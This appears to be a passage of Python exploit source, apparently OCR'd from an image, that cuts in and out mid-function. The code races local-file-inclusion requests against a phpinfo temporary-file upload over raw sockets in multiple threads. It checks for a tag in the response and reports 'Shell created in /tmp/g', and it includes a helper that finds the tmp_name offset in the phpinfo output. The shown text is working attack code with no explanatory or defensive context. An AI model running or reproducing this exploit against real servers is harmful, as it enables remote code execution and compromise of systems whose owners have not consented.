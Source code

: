 ```python
        return None
     
    s2.sendall(lfi_req % (fn, host))
     
    data = s2.recv(4096)
     
    # debug
    log.debug(data)
     
    s1.close()
    s2.close()
     
    if data.find(tag) != -1:
        return fn

 

counter = 0


class ThreadWorker(threading.Thread):

    def __init__(self, event, lock, maxattempts, *args):
        threading.Thread.__init__(self)
        self.event = event
        self.lock = lock
        self.maxattempts = maxattempts
        self.args = args
     
    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter += 1
     
            try:
                x = lfi_phpinfo(*self.args)
                if self.event.is_set():
                    break
                if x:
                    info_msg = "\nGot it! Shell created in /tmp/g"
                    log.info(info_msg)
                    self.event.set()
            except socket.error:
                return

 

def getoffset(host, port, phpinfo_req):
    """Gets offset of tmp_name in php output
    """
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.sendall(phpinfo_req)

    data = ""
    while True:
        rcv_data = s.recv(4096)
     
        data += rcv_data
        if rcv_data == "":
```